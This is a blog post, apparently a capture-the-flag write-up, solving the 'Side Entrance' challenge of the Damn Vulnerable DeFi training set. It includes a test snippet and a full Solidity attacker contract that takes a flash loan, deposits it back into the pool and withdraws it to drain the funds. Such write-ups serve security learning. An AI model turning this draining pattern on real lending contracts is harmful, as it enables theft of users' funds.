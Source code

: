 ```yaml
---
title: "Conquering the Side Entrance Challenge: A Damn Vulnerable DeFi Exploit"
date: '2023-11-21'
lastmod: '2023-11-21'
tags: ['Web3']
draft: false
summary: "Quick demonstration for a vulnerability exploit"
---
```


In the world of blockchain and DeFi, understanding vulnerabilities is key to ensuring security.
The ["Side Entrance" challenge](https://www.damnvulnerabledefi.xyz/challenges/side-entrance/) from "Damn Vulnerable DeFi" provides a perfect learning opportunity for aspiring
security enthusiasts and developers. Let's dive into the challenge and unveil a strategy to exploit this vulnerability for educational purposes.

## The Challenge Overview

"Side Entrance" is a smart contract challenge where a seemingly secure lending pool allows
for deposits, withdrawals, and flash loans. However, it hides a critical flaw in its logic,
allowing an astute hacker to drain all its funds.

## Crafting the Exploit

The exploit strategy is straightforward yet ingenious. By utilizing the contract's flash loan function,
we can deposit the borrowed funds back into the pool and subsequently withdraw them,
effectively emptying the pool's reserves.

## Implementing the Solution

Here's the Solidity code snippet [for the test](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v3.0.0/test/side-entrance/side-entrance.challenge.js) to execute the exploit:

```javascript
it('Execution', async function () {
    // Deploy the attacker contract
    const AttackerContractFactory = await ethers.getContractFactory('AttackerContract', player);
    const attacker = await AttackerContractFactory.deploy(pool.address);
    await attacker.deployed();

    // Execute the attack
    await attacker.connect(player).attack(ETHER_IN_POOL);
});
```
And here is the attacking contract:

```javascript

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./SideEntranceLenderPool.sol";

contract AttackerContract {
    SideEntranceLenderPool public pool;

    constructor(address _poolAddress) {
        pool = SideEntranceLenderPool(_poolAddress);
    }

    // Function to initiate the attack
    function attack(uint256 amount) external {
        pool.flashLoan(amount);
        pool.withdraw();
        payable(msg.sender).transfer(address(this).balance);
    }

    // This function is called by the SideEntranceLenderPool during the flash loan
    function execute() external payable {
        pool.deposit{value: msg.value}();
    }

    // Allow the contract to receive ETH
    receive() external payable {}
}

```
## Reflecting on the Challenge

This challenge is a stark reminder of the intricacies of smart contract security.
In the rapidly evolving landscape of DeFi, staying vigilant and understanding the potential
exploits is crucial for developers and auditors alike.


